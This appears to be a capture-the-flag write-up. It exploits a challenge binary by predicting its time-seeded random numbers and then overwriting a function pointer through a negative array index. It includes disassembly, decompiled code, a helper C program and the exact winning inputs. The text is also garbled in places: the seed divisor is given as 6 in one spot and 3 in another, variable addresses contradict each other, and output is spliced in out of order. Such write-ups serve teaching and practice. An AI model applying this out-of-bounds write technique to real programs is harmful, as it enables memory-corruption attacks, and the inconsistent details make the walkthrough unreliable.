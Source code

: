 # Writeup

We are given a binary to pwn.

```
$ checksec solve
[*] '/pctf23/chall1/solve'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Executing the binary we are asked to guess four numbers in a row
```
$ ./solve 
Welcome to the game
Guess four numbers in a row to pass to next level
Enter your guess: 
```
Disassembling the main ```

Write a few words about the game ||||||||||

So now give me two of your lucky numbers and both must be less than 1000: 

-12 -211

You're a good story teller. Here's the flag.

p_ctf{s@y_t|k|28|8|d|g_st0ry}

```
```
gef➤  disassemble main
Dump of assembler code for function main:
      0x0000000000001657 <+0>:     endbr64 
   0x000000000000165b <+4>:     push   rbp
   0x000000000000165c <+5>:     mov    rbp,rsp
   0x000000000000165f <+8>:     sub    rsp,0x20
   0x0000000000001663 <+12>:    mov    DWORD PTR [rbp-0x14],edi
   0x0000000000001666 <+15>:    mov    QWORD PTR [rbp-0x20],rsi
   0x000000000000166a <+19>:    mov    rax,QWORD PTR [rip+0x29af]        # 0x4020 <stdout@GLIBC_2.2.5>
   0x0000000000001671 <+26>:    mov    ecx,0x0
   0x0000000000001676 <+31>:    mov    edx,0x2
   0x000000000000167b <+36>:    mov    esi,0x0
   0x0000000000001680 <+41>:    mov    rdi,rax
   0x0000000000001683 <+44>:    call   0x1190 <setvbuf@plt>
   0x0000000000001688 <+49>:    call   0x1180 <getegid@plt>
   0x000000000000168d <+54>:    mov    DWORD PTR [rbp-0x4],eax
   0x0000000000001690 <+57>:    mov    edx,DWORD PTR [rbp-0x4]
   0x0000000000001693 <+60>:    mov    ecx,DWORD PTR [rbp-0x4]
   0x0000000000001696 <+63>:    mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000001699 <+66>:    mov    esi,ecx
   0x000000000000169b <+68>:    mov    edi,eax
   0x000000000000169d <+70>:    mov    eax,0x0
   0x00000000000016a2 <+75>:    call   0x1130 <setresgid@plt>
   0x00000000000016a7 <+80>:    mov    edi,0x0
   0x00000000000016ac <+85>:    call   0x1170 <time@plt>
   0x00000000000016b1 <+90>:    mov    rcx,rax
   0x00000000000016b4 <+93>:    movabs rdx,0x2aaaaaaaaaaaaaab
   0x00000000000016be <+103>:   mov    rax,rcx
   0x00000000000016c1 <+106>:   imul   rdx
   0x00000000000016c4 <+109>:   sar    rcx,0x3f
   0x00000000000016c8 <+113>:   mov    rax,rdx
   0x00000000000016cb <+116>:   sub    rax,rcx
   0x00000000000016ce <+119>:   mov    edi,eax
   0x00000000000016d0 <+121>:   call   0x1150 <srand@plt>
   0x00000000000016d5 <+126>:   lea    rax,[rip+0xa6d]        # 0x2149
   0x00000000000016dc <+133>:   mov    rdi,rax
   0x00000000000016df <+136>:   call   0x1110 <puts@plt>
   0x00000000000016e4 <+141>:   lea    rax,[rip+0xa75]        # 0x2160
   0x00000000000016eb <+148>:   mov    rdi,rax
   0x00000000000016ee <+151>:   call   0x1110 <puts@plt>
   0x00000000000016f3 <+156>:   mov    eax,0x0
   0x00000000000016f8 <+161>:   call   0x1312 <random_check>
   0x00000000000016fd <+166>:   test   eax,eax
   0x00000000000016ff <+168>:   je     0x170b <main+180>
   0x0000000000001701 <+170>:   mov    eax,0x0
   0x0000000000001706 <+175>:   call   0x1587 <vuln>
   0x000000000000170b <+180>:   mov    eax,0x0
   0x0000000000001710 <+185>:   leave  
   0x0000000000001711 <+186>:   ret    
End of assembler dump.
```
We see that the srand function gets time(0)/6 as the parameter

```
undefined8 main(void)

{
  __gid_t __rgid;
  int iVar1;
  time_t tVar2;
  
  setvbuf(stdout,(char *)0x0,2,0);
  __rgid = getegid();
  setresgid(__rgid,__rgid,__rgid);
  tVar2 = time((time_t *)0x0);
  srand((uint)(tVar2 / 3));
  puts("Welocome to the game");
  puts("Guess four numbers in a row to pass to next level");
  iVar1 = random_check();
  if (iVar1 != 0) {
    vuln();
  }
  return 0;
}
```
The random function in c gives the same sequence of random numbers with a constant seeder. So the seed here is the (current_time)/6
we write a small c program to find the sequence
```
#include<stdio.h>

int main(){
    srand(time(0)/3);
    printf("Randomly generated numbers are: \n");
    for (int i = 0; i < 5; i++)
        printf(" %d\n", rand() % 1000);
}
```
Using the script, we get the random numbers
```
Randomly generated numbers are: 
 178
 164
 78
 239
 823
 ```
 ```
 Welcome to the game
Guess four numbers in a row to pass to next level
Enter your guess: 178
[1/4] Your guess was right.
Enter your guess: 164
[2/4] Your guess was right.
Enter your guess: 78
[3/4] Your guess was right.
Enter your guess: 239
[4/4] Your guess was right.

Write a few words about the game: 
```
We can see that there are two story functions one is hard, and the other is easy.

```
gef➤  info functions
All defined functions:

Non-debugging symbols:
...
0x00000000000012c9  calculate_desc
0x0000000000001312  random_check
0x00000000000013e1  easy_set_winner
0x00000000000014b4  hard_set_winner
0x0000000000001587  vuln
0x0000000000001657  main
...
```

Checking all the variables
```
gef➤  info variables
All defined variables:

Non-debugging symbols:
...
0x0000000000004010 check
...
0x0000000000004040 fun
```

```
gef➤  p easy_set_winner 
$1 = {<text variable, no debug info>} 0x13e1 <easy_set_winner>
gef➤  p hard_set_winner 
$2 = {<text variable, no debug info>} 0x14b4 <hard_set_winner>
gef➤  x 0x0000000000004040
0x4260 <check>:	0x000014b4
```
We can see that check points to the hard_set_winner which we need to change to easy_set_winner

Calculating the difference between them we get 0x14b4-0x13e1 = 211

Also calculating the difference between check and fun :

0x4040 - 0x4010 = 48

as we know that fun stores integer each index is of four.
So we divide 48/(size of int) = 12

To reach the check variable from fun variable we need to subtract -12 from the fun variable. 
And then ,
So in order to change the check function to point to easy_set_winner we need to subtract -211 from hard_set_function.

Examining the easy_set_winner function in ghidra
```

void easy_set_winner(undefined8 param_1,undefined8 param_2)

{
  int iVar1;
  FILE *__stream;
  long in_FS_OFFSET;
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  iVar1 = calculate_desc(param_1,param_2);
  if (iVar1 == 0x4d8) {
    local_58 = 0;
    local_50 = 0;
    local_48 = 0;
    local_40 = 0;
    local_38 = 0;
    local_30 = 0;
    local_28 = 0;
    local_20 = 0;
    __stream = fopen("flag.txt","r");
    fgets((char *)&local_58,0x40,__stream);
    puts("You\'re a good story teller. Here\'s the flag.");
    puts((char *)&local_58);
  }
  else {
    printf("Youe story was not good.");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
We can see that it checks if the value of ascii character we entered in the story is equal to 0x4d8(1240) 
so from the ascii table, we get | has ascii value of 124, so we enter the story as ||||||||||||(10 times |)

```
Write a few words about the game ||||||||||
So now give me two of your lucky numbers and both must be less than 1000: 
-12 -211
You're a good story teller. Here's the flag.
```
p_ctf{s@y_t|k|28|8|d|g_st0ry}
```